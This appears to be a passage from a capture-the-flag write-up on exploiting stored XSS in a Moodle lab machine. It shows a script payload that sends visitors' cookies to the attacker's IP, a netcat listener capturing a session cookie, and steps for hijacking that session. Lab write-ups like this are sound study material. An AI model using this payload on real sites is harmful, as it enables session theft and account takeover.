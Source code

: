 ![80 Moodle Announcement](screenshots/80_schooled_moodlenet_poc.png)

Success! The JavaScript executes and we get an alert box. The next step is to put in a well-known JavaScript XSS payload that will steal the cookie of the user who visits the site and send it to our machine. I modified the code from the GitHub repo to use my IP and port.

```none
<script>var i=new Image;i.src="http://10.10.14.15:9001/xss.php?"+document.cookie;</script>
```

Before submitting the change in my profile, I made sure to have a netcat listener configured on my machine.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.234] 38176
GET /xss.php?MoodleSession=u7dloqdkkihkqccs75i11un6gf HTTP/1.1
Host: 10.10.14.15:9001
User-Agent: Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://moodle.schooled.htb/moodle/user/profile.php?id=28
```

Success! We managed to capture the request from another user and get their cookie. I could tell this worked because the cookie for my user was different from the cookie we captured. I opened the dev tools in Firefox and changed my cookie to the value we just captured. Then refresh the browser tab, and we are logged in as Manuel Phillips.
